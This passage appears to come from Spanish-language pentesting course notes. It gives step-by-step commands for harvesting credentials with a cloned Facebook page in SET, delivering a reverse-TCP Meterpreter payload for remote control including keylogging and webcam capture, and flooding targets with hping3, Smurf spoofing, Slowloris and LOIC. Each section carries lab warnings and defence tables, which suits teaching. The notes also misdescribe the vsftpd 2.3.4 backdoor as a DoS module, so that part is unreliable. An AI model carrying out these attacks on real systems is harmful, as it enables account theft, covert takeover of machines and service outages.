| **Clonación de sitios web**    | Copia exacta de un sitio real con formulario falso | Página falsa de login de Office 365                  |
| **Keyloggers**                 | Software que graba lo que escribes                 | Malware que registra contraseñas                     |
| **Inyecciones en formularios** | Modificar formularios legítimos                    | Código malicioso agregado a una página real hackeada |
| **Captura en red**             | Interceptar contraseñas en la red                  | Ataques Man-in-the-Middle                            |

---

### ⚙️ Herramientas más comunes para practicar Credential Harvesting

1. **Social-Engineer Toolkit (SET)** – en Kali Linux
2. **Gophish** – plataforma de simulación de campañas de phishing
3. **Evilginx2** – proxied phishing real con captura de tokens
4. **BeEF** – explotación desde navegadores
5. **Wireshark** – captura de tráfico de red (en HTTP)

---

### 🧰 Instalación de entorno de laboratorio

#### ✅ Requisitos:

- Kali Linux (ya incluye SET)
- Una máquina víctima (Ubuntu, Windows o navegador real)
- Red local o VirtualBox

---

#### 📦 Instalar SET (Social-Engineer Toolkit)

En Kali ya está incluido. Si no:

```bash
sudo apt update
sudo apt install set
```

O instalar desde GitHub:

```bash
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
sudo python3 setup.py install
```

---

### ⚙️ Ejemplo completo: Credential Harvesting con SET

#### 🎯 Objetivo:

Capturar credenciales falsas ingresadas por la víctima en una página clonada (por ejemplo, **Facebook**) usando **SET en Kali Linux**.

---

#### 👣 Paso a paso

##### 🔹 Paso 1: Ejecutar SET

```bash
sudo setoolkit
```

Verás un menú. Selecciona:

```
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
2) Site Cloner
```

---

##### 🔹 Paso 2: Configurar la página falsa

Te pedirá:

1. **IP de tu Kali Linux** (ej: `192.168.1.100`)
2. **URL a clonar**: escribe `https://www.facebook.com` o cualquier otra

SET creará un servidor local con una **copia exacta de esa página**.

---

##### 🔹 Paso 3: Enviar el enlace a la víctima

En un escenario real, se hace por correo o SMS.
En laboratorio, simplemente abre el navegador en la máquina víctima y visita:

```
http://192.168.1.100
```

---

##### 🔹 Paso 4: Víctima ingresa sus datos

El sitio falso funciona como el real, pero cuando el usuario escribe su email y contraseña…

✅ ¡Kali captura los datos!

En la terminal del atacante aparecerá algo como:

```
[*] WE GOT A HIT! Printing the output:
USERNAME: víctima@correo.com
PASSWORD: contraseñasecreta123
```

---

#### 🎯 ¿Qué pasó?

- La víctima pensó que era una página real
- Escribió su usuario y contraseña
- SET capturó esos datos en texto plano

---

### 🛡️ ¿Cómo prevenir ataques de Credential Harvesting?

| Medida                             | Explicación                                        |
| ---------------------------------- | -------------------------------------------------- |
| ✅ Usar HTTPS siempre              | HTTPS impide la captura por red                    |
| 🔍 Verificar URL                   | Que diga `https://facebook.com`, no `faceb00k.xyz` |
| 🔐 Usar autenticación en dos pasos | Aunque roben la clave, no podrán entrar            |
| 📧 Cuidado con correos sospechosos | No hacer clic en enlaces desconocidos              |
| 🚫 No compartir contraseñas        | Nunca por correo, teléfono, ni chats               |

---

### 🧠 Resumen

| Elemento          | Detalle                                                    |
| ----------------- | ---------------------------------------------------------- |
| ¿Qué es?          | Técnica para robar credenciales                            |
| ¿Cómo?            | Clonando sitios, phishing, keyloggers                      |
| Herramienta usada | SET (Social-Engineer Toolkit)                              |
| Práctica          | Clonar sitio como Facebook y capturar credenciales         |
| Prevención        | Doble factor, HTTPS, verificación de enlaces, capacitación |

---

[🔼](#índice)

---

## **822. Preparación de ataques con SET y Metasploit**

### 🧠 ¿Qué es SET y qué es Metasploit?

| Herramienta                       | Descripción breve                                                                                                                                                                   |
| --------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **SET (Social-Engineer Toolkit)** | Herramienta diseñada para realizar ataques de **ingeniería social**, como phishing, clonado de páginas, envío de payloads, USBs infectados, etc.                                    |
| **Metasploit Framework**          | Plataforma poderosa para **explotar vulnerabilidades**, generar **payloads (cargas maliciosas)** y establecer **acceso remoto** a sistemas (consolas de meterpreter, shells, etc.). |

Estas herramientas juntas se usan para **engañar al usuario (SET)** y luego **tomar el control del sistema (Metasploit)**.

---

### 🧰 Requisitos previos

- **Kali Linux** (ya viene con SET y Metasploit)
- **Máquina víctima** (Windows 10, Ubuntu, o cualquier SO vulnerable)
- Red local o red virtual (VirtualBox o VMware)

---

### 🔧 Instalación (en caso de no tener Kali Linux)

#### 🔹 Instalar SET:

```bash
sudo apt update
sudo apt install set
```

O desde GitHub:

```bash
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
sudo python3 setup.py install
```

#### 🔹 Instalar Metasploit:

En Kali ya está instalado, pero si no:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | sudo bash
```

Luego lo ejecutas con:

```bash
msfconsole
```

---

### 🔥 Escenario realista (ejemplo completo paso a paso)

#### 🎯 Objetivo:

Enviar un archivo malicioso (payload) a la víctima mediante **SET**, que al ejecutarse, nos da control remoto de su equipo usando **Metasploit**.

---

#### 👣 Paso a paso

##### 🧪 Etapa 1: Crear el payload con SET

1. Ejecuta SET:

```bash
sudo setoolkit
```

2. Menú de SET:

```
1) Social-Engineering Attacks
```

3. Luego:

```
4) Create a Payload and Listener
```

4. Escoge el tipo de ataque:

```
1) Windows Reverse_TCP Meterpreter
```

5. Especifica la IP de tu Kali Linux (ejemplo: `192.168.1.100`)

6. Puerto de escucha: `4444` (puedes dejarlo por defecto)

7. SET generará un archivo malicioso, por ejemplo:

```
payload.exe -> se guardará en /root/.set/
```

---

##### 🧪 Etapa 2: Entregar el archivo a la víctima

📌 En la vida real esto puede hacerse por:

- Correo (phishing)
- USB
- Página falsa

Para la práctica, puedes copiar manualmente el archivo `payload.exe` a la máquina víctima.

---

##### 🧪 Etapa 3: Esperar la conexión con Metasploit

SET ejecutará automáticamente el **listener** de Metasploit. Pero también puedes abrir tú mismo Metasploit:

```bash
msfconsole
```

Y configurar el handler:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

##### ✅ Etapa 4: La víctima ejecuta el archivo

Cuando la víctima abre `payload.exe`, obtendrás una **consola de meterpreter**, algo así como:

```
[*] Meterpreter session 1 opened
meterpreter >
```

Desde aquí puedes:

- Ver archivos: `ls`
- Descargar archivos: `download`
- Tomar control remoto: `shell`
- Activar cámara o micrófono (en Windows)

---

### 📌 Ejemplo resumido

```bash
# En Kali
sudo setoolkit
1) Social-Engineering Attacks
4) Create a Payload and Listener
1) Windows Reverse_TCP Meterpreter
IP: 192.168.1.100
Puerto: 4444
```

Archivo generado: `payload.exe`

Ejecuta en Metasploit si no lo hace SET:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

Cuando la víctima ejecute el archivo:

```
meterpreter >
```

¡Ya tienes control total de la máquina víctima!

---

### 🛑 Advertencia

Este tipo de práctica **solo debe hacerse en entornos de laboratorio o educativos**, NUNCA en redes reales o sin autorización. Usar estas técnicas fuera de un contexto ético puede ser considerado delito.

---

##3 🛡️ ¿Cómo protegerse?

| Medida                                          | Explicación                           |
| ----------------------------------------------- | ------------------------------------- |
| 🔍 No ejecutar archivos de fuentes desconocidas | Verifica extensión y procedencia      |
| ✅ Antivirus actualizado                        | Detecta payloads comunes              |
| 🛡️ Cortafuegos y monitoreo                      | Bloquea conexiones no autorizadas     |
| 🚫 No descargar de sitios raros                 | Incluso si parecen confiables         |
| 💡 Educación                                    | Enseñar sobre phishing y manipulación |

---

[🔼](#índice)

---

## **823. Ejecución de ataques con SET y Metasploit**

### 🔍 ¿Qué es SET?

**SET** es una herramienta de código abierto enfocada en **ataques de ingeniería social**, como:

- Phishing (suplantación de identidad)
- Clonación de páginas web
- Envío de archivos maliciosos
- Ataques USB, ataques con Java, etc.

📦 Ya viene instalada por defecto en **Kali Linux**.

---

### 🧰 ¿Qué es Metasploit?

**Metasploit Framework** es una plataforma usada para:

- Crear y lanzar **payloads** (cargas útiles maliciosas)
- Explotar vulnerabilidades
- Obtener control de dispositivos
- Acceder a **Meterpreter**: un shell interactivo que permite hacer muchas acciones dentro del equipo atacado

---

### ⚙️ Instalación y preparación

#### ✅ Requisitos:

- Kali Linux (con SET y Metasploit ya instalados)
- Una máquina víctima (Windows 10 o Ubuntu en VirtualBox, por ejemplo)
- Ambas máquinas conectadas en red (misma red local o adaptador puente)

---

#### 🧪 ¿Y si no tengo Kali?

Puedes instalar SET y Metasploit en Debian/Ubuntu así:

##### Instalar SET:

```bash
sudo apt update
sudo apt install set
```

##### Instalar Metasploit:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | sudo bash
```

---

### 🚀 **Ejemplo práctico completo paso a paso**

#### 🎯 Objetivo:

Enviar un archivo `.exe` malicioso a una víctima Windows.
Cuando lo abra, se conectará a tu máquina Kali y tendrás **acceso remoto total** vía **Meterpreter**.

---

##### 🧪 PASO 1 – Ejecutar SET

En Kali, abre una terminal y ejecuta:

```bash
sudo setoolkit
```

Luego, en los menús selecciona:

```
1) Social-Engineering Attacks
4) Create a Payload and Listener
1) Windows Reverse_TCP Meterpreter
```

---

#### 🔧 Parámetros que te pedirá:

- **IP de Kali Linux (LHOST)**: tu IP local (por ejemplo `192.168.1.100`)
- **Puerto de escucha (LPORT)**: usa `4444` o el que prefieras
- SET generará un archivo malicioso, por ejemplo:

```bash
/root/.set/reverse_tcp_payload.exe
```

📎 Este archivo deberás **entregar a la víctima** por algún medio (correo, USB, enlace, etc.).

---

##### 🧪 PASO 2 – Preparar listener (Metasploit)

SET abrirá Metasploit automáticamente con la configuración correcta.
Pero si quieres hacerlo manualmente:

```bash
msfconsole
```

Y luego en la consola de Metasploit:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

Ahora estás **esperando una conexión** desde la víctima.

---

##### 🧪 PASO 3 – Entregar el archivo malicioso a la víctima

Puedes hacer esto:

- Subirlo a un servidor web
- Usar un USB
- Mandarlo como adjunto en un correo falso
- O copiarlo directamente si es una VM

✅ En el entorno de laboratorio, solo copia el archivo a la máquina víctima.

---

##### 🧪 PASO 4 – Víctima ejecuta el archivo

Cuando la víctima abra el archivo `reverse_tcp_payload.exe`, en Kali verás:

```bash
[*] Meterpreter session 1 opened
meterpreter >
```

🎉 ¡Ya tienes acceso completo a la máquina víctima!

---

##### 🧪 PASO 5 – ¿Qué puedes hacer con Meterpreter?

```bash
sysinfo          # Ver información del sistema
getuid           # Ver usuario actual
ps               # Ver procesos activos
shell            # Entrar a la terminal
screenshot       # Tomar captura de pantalla
keyscan_start    # Comenzar a capturar teclas
webcam_snap      # Tomar una foto con la webcam
```

---

### 🧠 ¿Qué aprendiste aquí?

| Elemento     | Detalles                                      |
| ------------ | --------------------------------------------- |
| Herramientas | SET + Metasploit                              |
| Técnica      | Ingeniería social con payload remoto          |
| Objetivo     | Obtener control remoto de una máquina víctima |
| Resultado    | Acceso con Meterpreter                        |

---

### 🔐 ¿Cómo prevenir este tipo de ataques?

| Medida                              | Descripción                                       |
| ----------------------------------- | ------------------------------------------------- |
| 🔒 No ejecutar archivos sospechosos | Nunca abras .exe no verificados                   |
| 🛡️ Usa antivirus actualizado        | Detecta y bloquea payloads                        |
| 📧 Cuidado con el phishing          | Revisa bien correos y remitentes                  |
| 💡 Educación                        | Enseña sobre ingeniería social en tu organización |
| ✅ Doble factor                     | Hace inútiles las contraseñas robadas             |

---

[🔼](#índice)

---

## **824. Modelo de un ataque DoS**



### 💣 ¿Qué es un Ataque DoS?

**DoS (Denial of Service)** significa "Denegación de Servicio".
Es un **ataque que busca hacer que un sistema, red o servicio deje de funcionar correctamente**, sobrecargándolo con tráfico falso o peticiones maliciosas.

---

### 🧠 Objetivo de un ataque DoS

- Agotar los recursos (CPU, RAM, ancho de banda)
- Saturar el servidor web, DNS o red
- Hacer que el servicio quede **fuera de línea (caído)**

---

### 📊 Tipos de ataques DoS

| Tipo de ataque            | Descripción                                    |
| ------------------------- | ---------------------------------------------- |
| **Flooding (inundación)** | Envía muchas peticiones rápidamente            |
| **Ping of Death**         | Envío de paquetes ICMP malformados o grandes   |
| **SYN Flood**             | Abusa del protocolo TCP enviando múltiples SYN |
| **Slowloris**             | Mantiene muchas conexiones abiertas lentamente |
| **Application Layer DoS** | Ataca servicios como HTTP o DNS directamente   |

---

### ⚠️ Importante

> **Este tipo de ataque debe usarse solo en entornos de laboratorio y con fines educativos. Hacerlo contra servicios reales es ilegal.**

---

#### 🔧 Herramientas comunes para realizar un ataque DoS

| Herramienta    | Descripción                                  |
| -------------- | -------------------------------------------- |
| **Hping3**     | Crea paquetes personalizados de red          |
| **Slowloris**  | Ataca servidores HTTP con conexiones lentas  |
| **LOIC/HOIC**  | Ataques en masa (DoS/DDoS) con GUI           |
| **Metasploit** | Tiene módulos DoS para servicios específicos |
| **Scapy**      | Permite crear tus propios paquetes           |

---

### 🛠️ Instalación (en Kali Linux o Ubuntu)

#### Instalar **hping3**:

```bash
sudo apt update
sudo apt install hping3
```

#### Instalar **Slowloris**:

```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
```

#### Instalar **LOIC (opcional, en Windows)**:

Solo en entornos de prueba. No recomendable para principiantes en redes reales.

---

### ✅ EJEMPLO PRÁCTICO COMPLETO: Ataque DoS con **hping3**

#### 🎯 Objetivo: simular un ataque SYN Flood

> Este ataque se basa en enviar muchas solicitudes SYN TCP a un puerto abierto, sin completar el "handshake", lo que agota los recursos del servidor.

---

#### 🧪 Escenario de prueba

- Máquina atacante: Kali Linux
- Máquina víctima: Ubuntu o Windows
- Ambas conectadas en red local (VirtualBox, VMware o red real)

---

##### 👣 Paso 1: Identificar la IP de la víctima

Ejecuta en Kali:

```bash
ping 192.168.1.101
```

(Usa la IP de tu víctima)

---

##### 👣 Paso 2: Ejecutar el ataque con hping3

```bash
sudo hping3 -S --flood -V -p 80 192.168.1.101
```

🔍 Explicación de parámetros:

| Parámetro | Significado                          |
| --------- | ------------------------------------ |
| `-S`      | Enviar paquetes TCP SYN              |
| `--flood` | Envía paquetes lo más rápido posible |
| `-p 80`   | Ataca el puerto 80 (HTTP)            |
| `-V`      | Modo verboso (ver información)       |

---

##### 👁️ Paso 3: Ver efectos en la víctima

En la máquina víctima, puedes usar:

```bash
htop    # Para ver uso de CPU
netstat -an | grep :80   # Para ver conexiones entrantes
```

Verás muchas conexiones SYN abiertas.

---

##### 🧼 Paso 4: Detener el ataque

Presiona `Ctrl + C` para detener hping3.

---

#### 🧪 EJEMPLO ALTERNATIVO: Ataque con Slowloris

```bash
python3 slowloris.py 192.168.1.101
```

Este ataque funciona bien contra servidores HTTP mal configurados.

---

### 🧱 ¿Cómo defenderse?

| Defensa                      | Acción                                 |
| ---------------------------- | -------------------------------------- |
| 🔥 Firewall                  | Limitar número de conexiones por IP    |
| 🛡️ IDS/IPS (Snort, Suricata) | Detectar patrones sospechosos          |
| ⏳ Timeouts cortos           | Cerrar conexiones lentas o incompletas |
| 🚫 Rate limiting             | Limitar tráfico excesivo por segundo   |
| 🚀 CloudFlare o WAFs         | Filtrar y absorber ataques HTTP        |

---

### 📚 Resumen

| Tema         | Explicación                                 |
| ------------ | ------------------------------------------- |
| ¿Qué es DoS? | Ataque para inutilizar un sistema o red     |
| Herramientas | hping3, slowloris, LOIC, etc.               |
| Instalación  | `apt install hping3`, `git clone slowloris` |
| Ejemplo      | Ataque SYN Flood a puerto 80                |
| Defensa      | Firewalls, IDS, límites por IP              |

---

[🔼](#índice)

---

## **825. Ataques ICMP y SYN Flood**



### 📌 ¿Qué son estos ataques?

Tanto **ICMP Flood** como **SYN Flood** son **ataques de denegación de servicio (DoS)**.

Su objetivo es **interrumpir el funcionamiento de un servidor o red** enviando paquetes en exceso, hasta que el sistema se vuelva lento o deje de responder.

---

### 📘 1. ICMP Flood Attack (Ping Flood)

#### 🧠 ¿Qué es ICMP?

- ICMP es el protocolo que usa el comando `ping`.
- Sirve para diagnosticar si una máquina está **activa o accesible**.

#### ❗ ¿Qué es un ICMP Flood?

- Es enviar **miles de pings por segundo** a una máquina destino.
- La víctima intenta responder a todos, consumiendo **ancho de banda y CPU**.

#### 💡 Resultado:

- La red o sistema víctima **se satura** y deja de responder.

---

### 📘 2. SYN Flood Attack

#### 🧠 ¿Qué es un paquete SYN?

- Es el primer paso en la **conexión TCP**: el "apretón de manos" entre cliente y servidor.
- Una conexión TCP se inicia así:

  ```
  Cliente -> SYN -> Servidor
  Servidor -> SYN/ACK -> Cliente
  Cliente -> ACK -> Servidor (conexión completa)
  ```

#### ❗ ¿Qué es un SYN Flood?

- Se envían **miles de paquetes SYN falsos** pero **nunca se completa la conexión**.
- El servidor queda esperando ACKs que nunca llegan.
- Así **consume recursos** (RAM, puertos, CPU).

#### 💡 Resultado:

- El servidor no puede aceptar conexiones reales. Queda "congelado".

---

### 🛠️ Herramientas necesarias

Trabajaremos con **Kali Linux**, pero puedes usar cualquier Linux con las siguientes herramientas:

#### ✅ Instala hping3:

```bash
sudo apt update
sudo apt install hping3
```

---

### 🎯 Escenario del laboratorio

- 🖥️ Máquina atacante: **Kali Linux**
- 🖥️ Máquina víctima: **Windows o Ubuntu**
- 🌐 Conectadas en la **misma red local (LAN o VirtualBox)**

---

#### 🧪 Parte 1: Ejemplo de Ataque **ICMP Flood**

##### 👣 Paso 1: Verifica la IP de la víctima

Ejecuta:

```bash
ping 192.168.1.101
```

(Usa la IP real de tu máquina víctima)

##### 👣 Paso 2: Ejecuta el ataque

```bash
sudo hping3 -1 --flood 192.168.1.101
```

📌 Explicación:

| Opción    | Significado               |
| --------- | ------------------------- |
| `-1`      | Usa protocolo ICMP (ping) |
| `--flood` | Enviar paquetes sin parar |

✅ Este comando **envía miles de pings por segundo** a la víctima.

##### 🔍 Paso 3: Observar efectos

En la máquina víctima (Windows):

- Abre el **Administrador de tareas** o el comando:

  ```cmd
  netstat -an
  ```

- Verás **uso alto de red**, o que **no responde al ping**.

---

#### 🧪 Parte 2: Ejemplo de Ataque **SYN Flood**

##### 👣 Paso 1: Ejecuta el ataque desde Kali

```bash
sudo hping3 -S --flood -V -p 80 192.168.1.101
```

📌 Explicación:

| Opción    | Significado                         |
| --------- | ----------------------------------- |
| `-S`      | Enviar paquetes SYN                 |
| `--flood` | Enviar lo más rápido posible        |
| `-p 80`   | Atacar el puerto 80 (HTTP)          |
| `-V`      | Modo verbose (ver salida detallada) |

##### 🔍 Paso 2: Ver efectos en la víctima

En la víctima, usa:

```bash
netstat -ant | grep SYN_RECV
```

Verás **muchas conexiones incompletas** en estado `SYN_RECV`.

---

### ⛔ ¿Cómo detener los ataques?

Presiona `Ctrl + C` en Kali para detener hping3.

---

#### 🧱 ¿Cómo defenderse?

| Defensa                      | Descripción                                 |
| ---------------------------- | ------------------------------------------- |
| 🔥 Firewalls (iptables, ufw) | Bloquean conexiones sospechosas             |
| 🧠 IDS/IPS (Snort, Suricata) | Detectan patrones de ataque                 |
| ⏳ TCP timeouts bajos        | Evitan que SYN queden abiertos mucho tiempo |
| 🛡️ Rate limiting             | Limita cantidad de peticiones por segundo   |
| 🧩 Servicios como Cloudflare | Filtran tráfico antes de llegar al servidor |

---

### ✅ Resumen

| Ataque     | Funciona con…    | Resultado                 |
| ---------- | ---------------- | ------------------------- |
| ICMP Flood | Ping (ICMP)      | Agota la red o la CPU     |
| SYN Flood  | TCP (puerto 80…) | Satura las conexiones TCP |

---

[🔼](#índice)

---

## **826. Ataques Smurf y DoS con Metasploit**

### 🧨 ¿Qué es un ataque DoS?

**DoS (Denial of Service)** o Denegación de Servicio es un tipo de ataque cuyo objetivo es **interrumpir o saturar un servicio o sistema**, haciéndolo inaccesible para usuarios legítimos.

---

### 💥 ¿Qué es un Ataque Smurf?

#### 🧠 Definición:

Un **ataque Smurf** es un ataque de tipo **ICMP Flood amplificado**, que aprovecha las características de red para **multiplicar el tráfico de ping (ICMP Echo Request)** y **saturar a una víctima**.

#### 📌 ¿Cómo funciona?

1. El atacante **envía paquetes ICMP con dirección IP falsificada (spoofed)** como si vinieran de la víctima.
2. Estos paquetes se envían a la **dirección de broadcast** de una red.
3. Todos los dispositivos en esa red **responden al ping**, pero la respuesta va a la víctima.
4. El resultado: la víctima **recibe cientos o miles de respuestas ICMP**, lo que **la satura**.

#### 🧪 Requisitos para funcionar:

- Una red que responda a ICMP Broadcast (actualmente rara).
- Dirección IP falsificada (IP Spoofing).
- Permisos para enviar paquetes "crudos" (root en Linux).

---

### 🧰 ¿Qué es Metasploit?

**Metasploit Framework** es una plataforma muy poderosa para **explotar vulnerabilidades, simular ataques y realizar pruebas de penetración**.

Incluye **módulos de ataque DoS**, aunque muchos son específicos para servicios y sistemas antiguos.

---

### 🔧 Instalación de herramientas necesarias

#### 📥 1. Instalar Metasploit en Kali Linux (viene preinstalado):

```bash
msfconsole
```

Si no lo tienes, instálalo con:

```bash
sudo apt update
sudo apt install metasploit-framework
```

---

#### 📥 2. Instalar hping3 (para simular ataque Smurf manual):

```bash
sudo apt install hping3
```

---

### 🧪 🔬 Simulación de Ataque Smurf (Manual)

Como muchas redes modernas **bloquean el broadcast ICMP**, esto solo se recomienda hacer **en un entorno controlado (red local virtual o laboratorio)**.

#### 🎯 Supongamos:

- IP de la víctima: `192.168.1.100`
- Dirección broadcast: `192.168.1.255`

#### 🛠️ Paso para lanzar el ataque:

```bash
sudo hping3 -1 -a 192.168.1.100 -c 1000 -d 120 -b 192.168.1.255
```

📌 Explicación de los parámetros:

| Parámetro | Significado                         |
| --------- | ----------------------------------- |
| `-1`      | Protocolo ICMP                      |
| `-a`      | Spoofea (falsifica) la IP de origen |
| `-c 1000` | Número de paquetes a enviar         |
| `-d 120`  | Tamaño del paquete                  |
| `-b`      | Envía a la dirección de broadcast   |

✅ Esto hace que todos los dispositivos de la red respondan a la víctima, **saturándola con respuestas** ICMP.

---

### ⚔️ Ataques DoS con Metasploit

#### 🧠 ¿Qué hace Metasploit aquí?

Metasploit contiene **módulos específicos para ataques de tipo DoS**, como:

- Servicios web
- FTP, SMB, DNS
- Aplicaciones vulnerables

Muchos módulos son de prueba o afectan servicios antiguos.

---

#### 🎯 Ejemplo real: Ataque DoS con Metasploit a servicio FTP (vsftpd)

🧪 Requiere una máquina víctima con **vsftpd 2.3.4**, un servidor FTP vulnerable.

---

#### 👣 Paso a paso con Metasploit

1. Iniciar Metasploit:

```bash
msfconsole
```

2. Buscar módulos DoS disponibles:

```bash
search type:dos
```

3. Usar uno, por ejemplo:

```bash
use auxiliary/dos/unix/ftp/vsftpd_234_backdoor
```

4. Ver opciones:

```bash
show options
```

5. Establecer la IP del objetivo:

```bash
set RHOSTS 192.168.1.100
```

6. Ejecutar el ataque:

```bash
run
```

🎯 Esto provoca un DoS si el servicio es vulnerable.

---

### ✅ Ejemplo completo final: Ataque DoS con Metasploit

🧪 **Objetivo**: Realizar un ataque de denegación de servicio a un servidor FTP vulnerable (vsftpd 2.3.4)

#### 💻 Requisitos:

- Kali Linux con Metasploit
- Máquina víctima (Linux) con vsftpd 2.3.4 instalado

#### 👣 Pasos en la práctica:

```bash
# En Kali:
msfconsole
```

```bash
# Buscar módulo de ataque
search vsftpd

# Usar el módulo
use auxiliary/dos/unix/ftp/vsftpd_234_backdoor

# Ver parámetros
show options

# Establecer IP del objetivo
set RHOSTS 192.168.1.100

# Ejecutar el ataque
run
```

🎯 Si el ataque tiene éxito, el servicio FTP de la víctima se cuelga.

---

### 🛡️ ¿Cómo protegerse?

| Protección                   | Descripción                                     |
| ---------------------------- | ----------------------------------------------- |
| 🔥 Desactivar ICMP Broadcast | En el router o firewall                         |
| 🧱 Firewall                  | Limitar tráfico sospechoso por puertos o IP     |
| 🛡️ IPS/IDS                   | Sistemas de detección (Snort, Suricata)         |
| 🚫 Rate Limiting             | Evita saturación por muchas solicitudes         |
| 📦 Actualizar servicios      | Parchear servicios antiguos (como vsftpd 2.3.4) |

---

### 📚 RESUMEN

| Tema                      | Explicación fácil                                |
| ------------------------- | ------------------------------------------------ |
| Ataque Smurf              | Inundación ICMP vía broadcast con IP falsificada |
| Ataque DoS con Metasploit | Usar módulos para saturar servicios vulnerables  |
| Herramientas usadas       | `hping3`, `msfconsole`                           |
| Recomendación             | Solo en laboratorio, nunca en redes reales       |

---

[🔼](#índice)

---

## **827. Ataques con LOIC**

### 🧠 ¿Qué es LOIC?

LOIC, siglas de **Low Orbit Ion Cannon**, es una herramienta de código abierto diseñada originalmente para realizar **pruebas de estrés en redes y servidores**.

Sin embargo, también ha sido usada para realizar **ataques DoS y DDoS** (Denegación de Servicio Distribuido).

---

### ⚠️ Importante

> **LOIC no oculta tu IP.** Si haces un ataque real, tu dirección puede ser rastreada fácilmente. Esta herramienta **solo debe usarse con fines educativos o en laboratorios controlados**.

---

### 📌 ¿Cómo funciona LOIC?

- Envía una gran cantidad de peticiones al servidor objetivo (por ejemplo, HTTP, TCP o UDP).
- El servidor empieza a **saturarse** por exceso de tráfico.
- Si se realiza desde muchas computadoras (DDoS), el servidor puede **caer temporalmente**.

---

### 🧰 Métodos de ataque que usa LOIC

| Tipo de ataque | Protocolo usado | Objetivo                          |
| -------------- | --------------- | --------------------------------- |
| TCP Flood      | TCP             | Abrir conexiones sin finalizar    |
| UDP Flood      | UDP             | Inundar con paquetes vacíos       |
| HTTP Flood     | HTTP            | Peticiones masivas de páginas web |

---

### 💻 Instalación de LOIC

Puedes usar **Windows**, **Linux (vía Mono)** o **ejecutar la versión web (JS LOIC)**

#### 🔹 Opción 1: En Windows

1. Ve al repositorio oficial o confiable:
   👉 [https://github.com/NewEraCracker/LOIC](https://github.com/NewEraCracker/LOIC)

2. Descarga el archivo `.zip` o `.exe`.

3. Ejecuta `LOIC.exe` (no requiere instalación).

#### 🔹 Opción 2: En Linux (Kali, Ubuntu)

1. Instala Mono:

```bash
sudo apt update
sudo apt install mono-complete
```

2. Descarga LOIC:

```bash
git clone https://github.com/NewEraCracker/LOIC.git
cd LOIC
```

3. Ejecuta LOIC:

```bash
mono LOIC.exe
```

---

### 🧪 Ejemplo completo: Ataque con LOIC en laboratorio

#### ⚙️ Escenario de laboratorio

| Máquina       | Sistema        | Rol              |
| ------------- | -------------- | ---------------- |
| Kali Linux    | Linux          | Atacante         |
| Windows/Linux | Servidor local | Víctima (Apache) |

> ⚠️ NO usar IPs reales ni servicios públicos. Solo en un entorno local.

---

#### 👣 Paso 1: Preparar máquina víctima

En la víctima, instala un servidor web Apache:

```bash
sudo apt update
sudo apt install apache2
```

Comprueba que funciona:

```bash
curl http://localhost
```

Anota su IP local, por ejemplo: `192.168.1.101`

---

#### 👣 Paso 2: Ejecutar LOIC

Desde Kali o Windows:

1. Ejecuta `LOIC`.

2. En la ventana:

   | Campo         | Valor                                    |
   | ------------- | ---------------------------------------- |
   | **IP or URL** | `192.168.1.101`                          |
   | **Method**    | `HTTP` (puedes probar también TCP o UDP) |
   | **Port**      | `80` (puerto web por defecto)            |
   | **# Threads** | `10-100` (según tu CPU)                  |

3. Marca la casilla: ✅ **IMMA CHARGIN MAH LAZER**

4. Presiona el botón: 🔴 **FIRE!**

---

#### 👀 Paso 3: Ver efectos en la víctima

En la víctima (servidor Apache):

Abre terminal y ejecuta:

```bash
htop
```

o

```bash
sudo netstat -antp | grep :80
```

Verás:

- Alto consumo de CPU/RAM en `apache2`
- Muchas conexiones entrantes
- El navegador puede dejar de responder

---

### 🛑 ¿Cómo detener el ataque?

Presiona `STOP` o cierra la aplicación LOIC.

---

### 🔐 ¿Cómo protegerse de LOIC?

| Defensa                      | Descripción                                |
| ---------------------------- | ------------------------------------------ |
| 🔥 Firewall (iptables, ufw)  | Limita número de conexiones por IP         |
| ⏱️ Rate Limiting             | Configura límite de peticiones por segundo |
| 🧠 IDS/IPS (Snort, Suricata) | Detectan patrones de DoS                   |
| ☁️ Cloudflare / WAF          | Protegen servicios web en producción       |

---

### 📚 Resumen general

| Elemento        | Detalle                                      |
| --------------- | -------------------------------------------- |
| Herramienta     | LOIC (Low Orbit Ion Cannon)                  |
| Tipos de ataque | TCP Flood, UDP Flood, HTTP Flood             |
| Instalación     | Sencilla, en Windows o Linux (vía Mono)      |
| Ejemplo         | Ataque a Apache local en puerto 80           |
| Seguridad       | Solo usar en entornos educativos/laboratorio |

---

[🔼](#índice)

---

## **828. Pentesting con DoS**

### 🧠 ¿Qué es un ataque DoS?

**DoS (Denial of Service)** es un tipo de ataque que busca **interrumpir el funcionamiento normal de un servicio, red o sistema**, haciéndolo inaccesible para usuarios legítimos.

> El **Pentesting con DoS** consiste en **simular estos ataques** en un entorno controlado para:
>
> - Verificar si un sistema puede resistirlos
> - Identificar vulnerabilidades
> - Implementar medidas de defensa

---

### 🧱 Tipos comunes de ataques DoS

| Tipo de ataque    | Descripción                                                        |
| ----------------- | ------------------------------------------------------------------ |
| **TCP SYN Flood** | Envía miles de peticiones de conexión sin completar el "handshake" |
| **UDP Flood**     | Envia muchos paquetes UDP para saturar el puerto                   |
| **ICMP Flood**    | Inunda la red con paquetes `ping`                                  |
| **Slowloris**     | Mantiene abiertas conexiones HTTP incompletas                      |
| **HTTP Flood**    | Inunda un servidor web con muchas peticiones HTTP válidas          |

---

### 🛠️ Herramientas más usadas para Pentesting con DoS

| Herramienta    | Tipo de ataque soportado           | Sistema       |
| -------------- | ---------------------------------- | ------------- |
| **hping3**     | TCP, UDP, ICMP Flood               | Linux         |
| **LOIC/HOIC**  | HTTP/TCP/UDP Flood                 | Windows/Linux |
| **Metasploit** | Exploits y módulos DoS específicos | Kali Linux    |
| **Slowloris**  | HTTP Slow DoS                      | Python        |
